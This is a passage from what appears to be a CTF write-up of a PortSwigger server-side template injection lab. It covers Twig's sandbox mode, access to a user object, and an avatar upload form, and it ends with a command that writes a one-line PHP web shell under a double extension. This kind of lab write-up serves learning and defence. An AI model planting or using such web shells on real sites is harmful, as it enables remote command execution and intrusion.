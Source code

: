 **Let's go to [Twig offical website](https://twig.symfony.com/):**

**In the home page, we can already see something interesting:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Server-Side-Template-Injection/SSTI-7/images/Pasted%20image%2020221224003911.png)

Hmm... **Sandbox mode**. Looks like we need to do some **sandbox bypass**.

**Now, we have access to the `user` object:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Server-Side-Template-Injection/SSTI-7/images/Pasted%20image%2020221224004725.png)

This will be very helpful for us.

**Let's go back to my account page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Server-Side-Template-Injection/SSTI-7/images/Pasted%20image%2020221224004828.png)

**As you can see, we can upload an avatar image.**

**Let's try to upload a PHP web shell:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Server-Side-Template-Injection]
└─# echo '<?php system($_GET["cmd"]); ?>' > webshell.jpg.php
```
